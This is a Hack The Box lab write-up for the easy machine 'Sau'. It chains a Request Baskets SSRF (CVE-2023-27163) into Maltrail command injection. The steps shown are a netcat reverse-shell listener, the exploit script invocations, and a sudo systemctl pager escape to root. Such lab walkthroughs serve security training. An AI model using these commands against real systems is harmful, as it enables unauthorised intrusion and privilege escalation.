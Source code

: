 ```yaml
---
title: Sau
date: 2023-10-12
description: Sau | easy | HTB
categories:
- htb-easy
tags:
  - CVE-2023-27163
  - Maltrail
---
```


Sau is an easy machine from hackthebox which involved exploiting a SSRF vulnerability leading to another service disclosure Maltrail. This service was vulnerable to command injection upon exploiting gave us shell as puma user. Upon further enumeration, systemctl can be run by puma user with root permissions.

<!--more-->

## NMAP SCAN

```bash
# nmap -sC -sV -p- -vv --reason --min-rate=1000 -T4 $ip -oN nmap_tcp_scan

PORT      STATE SERVICE REASON  VERSION
22/tcp    open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDdY38bkvujLwIK0QnFT+VOKT9zjKiPbyHpE+cVhus9r/6I/uqPzLylknIEjMYOVbFbVd8rTGzbmXKJBdRK61WioiPlKjbqvhO/YTnlkIRXm4jxQgs+xB0l9WkQ0CdHoo/Xe3v7TBije+lqjQ2tvhUY1LH8qBmPIywCbUvyvAGvK92wQpk6CIuHnz6IIIvuZ
dSklB02JzQGlJgeV54kWySeUKa9RoyapbIqruBqB13esE2/5VWyav0Oq5POjQWOWeiXA6yhIlJjl7NzTp/SFNGHVhkUMSVdA7rQJf10XCafS84IMv55DPSZxwVzt8TLsh2ULTpX8FELRVESVBMxV5rMWLplIA5ScIEnEMUR9HImFVH1dzK+E8W20zZp+toLBO1Nz4/Q/9yLhJ4Et+jcjTdI1LMVeo3VZw3Tp7KH
TPsIRnr8ml+3O86e0PK+qsFASDNgb3yU61FEDfA0GwPDa5QxLdknId0bsJeHdbmVUW3zax8EvR+pIraJfuibIEQxZyM=
|   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEFMztyG0X2EUodqQ3reKn1PJNniZ4nfvqlM7XLxvF1OIzOphb7VEz4SCG6nXXNACQafGd6dIM/1Z8tp662Stbk=
|   256 b30c47fba2f212ccce0b58820e504336 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICYYQRfQHc6ZlP/emxzvwNILdPPElXTjMCOGH6iejfmi
80/tcp filtered http
55555/tcp open  unknown syn-ack
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Mon, 02 Oct 2023 02:04:54 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest:
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Mon, 02 Oct 2023 02:04:20 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions:
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Mon, 02 Oct 2023 02:04:21 GMT
|_    Content-Length:
```

## Port 55555

```bash
# gobuster dir -u http://10.10.11.224:55555/ -w ~/wordlists/web/raft-medium-directories.txt -t 30 -b 400,404

/test                 (Status: 200) [Size: 0]
/web                  (Status: 200) [Size: 8700]
/Web                  (Status: 301) [Size: 39] [--> /web]
/lab                  (Status: 200) [Size: 0]
```

- Surfing the website we saw that we can create baskets and api calls are being made in the backend

- First searched for *Request Baskets exploit* on google and found a **SSRF** vuln (https://github.com/entr0pie/CVE-2023-27163, https://notes.sjtu.edu.cn/s/MUUhEymt7#)

- It means that we can redirect the output to any other internal open port. During our nmap scan we saw that port 80 is *filtered*

- So to exploit this: `bash ./CVE-2023-27163.sh http://10.10.11.224:55555/ [http://127.0.0.1:80/](http://127.0.0.1/)`

- And we got another page with **Maltrail (v0.53)** **service**

- Looking up on google for Maltrail exploit got one (https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/, https://github.com/spookier/Maltrail-v0.53-Exploit)

- There is a command injection vulnerability in *username* parameter.

- So first we need to create a internal request for **/login** page as said in the above POC.

```bash
bash ./CVE-2023-27163.sh http://10.10.11.224:55555/ http://127.0.0.1:80/login
nc -lnvp 8888
python3 exploit.py 10.10.14.81 8888 http://10.10.11.224:55555/rxfgfa
```

- And we get a shell as `puma`

## Enum as puma user

- Doing `sudo -l` we can run *systemctl* command `(ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service`

- So went to gtfo bins and got exploit for *systemctl:* `sudo /usr/bin/systemctl status trail.service` and then `!bash`

- We get shell as root